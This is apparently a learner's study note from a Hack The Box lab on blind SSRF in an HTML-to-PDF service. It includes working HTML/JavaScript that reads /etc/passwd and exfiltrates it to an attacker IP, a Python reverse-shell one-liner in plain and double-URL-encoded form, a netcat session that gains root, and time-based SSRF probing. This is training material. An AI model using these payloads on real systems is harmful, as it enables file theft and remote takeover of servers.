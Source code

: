 ```yaml
---
id: 2_SSRF
created_date: 05/01/2023
updated_date: 05/01/2023
type: note
---
```


#  2_SSRF BLIND EXAMPLE
- **🏷️Tags** :  #01-2023 #bash #SSRF #web #javascript #blind

## 📝 Notes

on this example we have a Website where you can upload an html file and it convert it on a PDF format.

We can relate with BurpSuite with each request we are making we are getting the same response.  This is not meaning that the web site is not vulnerable to SSRF. 

we can try to upload an html file that look like this
```html
<!DOCTYPE html>
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>
```

we are receiving a response on the netcat listener, By inspecting the request, we notice `wkhtmltopdf` in the User-Agent. If we browse [wkhtmltopdf's downloads webpage](https://wkhtmltopdf.org/downloads.html), the below statement catches our attention:

**Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details.**

Great, we can execute JavaScript in wkhtmltopdf! Let us leverage this functionality to read a local file by creating the following HTML document.

Code: html

```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

The `onload` event is triggered when the `readfile` request is successful and the response is received from the server. The event handler function is defined as an anonymous function that is assigned to the `onload` property of the `readfile` object.

The function begins by checking the `readyState` property of the `readfile` object. If the `readyState` is equal to 4, it means that the request has completed and the response is ready to be processed.

Inside the `if` statement, the function constructs a new URL using the `SERVICE IP` and `PORT` placeholders, which should be replaced with the IP address and port of the remote server. The `btoa` function is used to encode the contents of the local file (which are stored in the `response` property of the `readfile` object) as ASCII text. The encoded text is appended to the URL as a query parameter named `data`.

Finally, the function uses the `exfil` `XMLHttpRequest` object to send an HTTP GET request to the constructed URL. This causes the contents of the local file to be sent to the remote server as a query parameter in the request.

Overall, this code is responsible for sending the contents of the local file to the remote server as part of the SSRF attack. It does this by constructing a URL with the encoded contents of the file as a query parameter, and sending an HTTP GET request to the URL using the `exfil` `XMLHttpRequest` object.

the port 9090 is recommended.

### Bash reverse shell with python 

In the previous section, we exploited an internal application through SSRF and executed remote commands on the target server. The same internal application (`internal.app.local`) exists in the current scenario. Let us compromise the underlying server, but this time by creating an HTML document with a valid payload for exploiting the local application listening on internal.app.local.

We will use the following reverse shell payload (it is pretty easy to identify that Python is installed once you achieve remote code execution).

#### Bash Reverse Shell

```bash
export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Remember, we need to URL encode our payload. In this case, we need to encode it twice. The end result will be similar to the below.

#### URL Encoded Payload

Code: html

```html
export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527
```

#### HTML Payload
the html payload will look like this : 
```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```

Launch a netcat listener and upload the html file
```bash
nc -nvlp 9090

listening on [any] 9090 ...
Connection received on 10.129.201.238 33100

# whoami

whoami
root
```

In the Exercise we are building the html file with the one line payload in python ( be careful to encode it twice ), launch a netcat listener on the port 9090 ( same as the payload one liner) and upload the file on the web site. Magic you now have reverse shell. For completing the exercise juste submit the kernel release number 
```bash
uname -r
``` 


# Time-Based SSRF 

We can also determine the existence of an SSRF vulnerability by observing time differences in responses. This method is also helpful for discovering internal services.

Let us submit the following document to the PDF application of the previous section and observe the response time.

Code: html

```html
<html>
    <body>
        <b>Time-Based Blind SSRF</b>
        <img src="http://blah.nonexistent.com">
    </body>
</html>
```

![image](https://academy.hackthebox.com/storage/modules/145/img/blind_time.png)

We can see the service took 10 seconds to respond to the request. If we submit a valid URL inside the HTML document, it will take less time to respond. Remember that `internal.app.local` was a valid internal application (that we could access through SSRF in the previous section).

![image](https://academy.hackthebox.com/storage/modules/145/img/blind_time2.png)

In some situations, the application may fail immediately instead of taking more time to respond. For this reason, we need to observe the time differences between requests carefully.
## Questions/Thoughts


## 🔗 Links
 